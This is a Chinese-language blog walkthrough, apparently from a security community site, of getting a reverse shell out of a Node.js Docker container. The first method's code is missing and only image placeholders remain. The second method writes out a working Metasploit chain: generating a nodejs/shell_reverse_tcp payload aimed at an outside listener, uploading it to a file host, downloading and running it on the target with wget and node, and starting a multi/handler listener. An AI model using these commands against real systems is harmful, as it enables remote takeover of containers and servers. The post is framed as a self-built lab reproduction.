










```
标题: Docker Node.js Reverse Shell
创建: 2021-01-14
更新: 2024-02-03
```

> 从 CN-SEC 找回的旧文

---

### 前言

这篇文章是我遇到的1种新环境(云上)的渗透，后来听团队大佬大概讲了一下操作(node.js 反弹shell)，作为菜鸡的我一向很自觉，学技术自然得"趁热打铁",于是下班回来把环境大概模拟出来，复现了一波。

注：实际情况是shell在容器内可以用node.js反弹出shell,但是很不稳定，大概20s左右就掉了。


### 环境搭建

step 1
- 准备两台服务器

step 2:
- 1台安装docker,dokcer安装node.js

step 3:
- 1台安装msf




### 复现

#### 姿势1 lambda Node.js 反弹shell

编辑shell.js



编辑完保存为shell.js, 然后直接在目标机器上执行即可



如图所示，成功反弹shell。


#### 姿势2 msf+node.js 反弹shell

安装msf

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

注：踩坑如下：


解决方式：
```shell
sudo vi etc/hosts

# 在hosts中添加

199.232.28.133raw.githubusercontent.com

# 即可
```

msf安装成功：



msf 生成payload (node.js)

```shell
msfvenom -p nodejs/shell_reverse_tcp LHOST=1.1.1.1 LPORT=8889 -f raw > msf_shell.js
```



上传到 bashupload

```shell
curl https://bashupload.com/msf_shell.js --data-binary @msf_shell.js
```



然后直接在目标容器下载该payload并执行：

```shell
wget https://bashupload.com/56yrL/msf_shell.js
```



```shell
node msf_shell.js
```



在vps上设置msf监听

```shell
use exploit/multi/handler
set payload nodejs/shell_reverse_tcp
set lhost 1.1.1.1
set lport 8889
exploit
```



如图，成功反弹shell。

---

参考：

https://tonghuaroot.com/


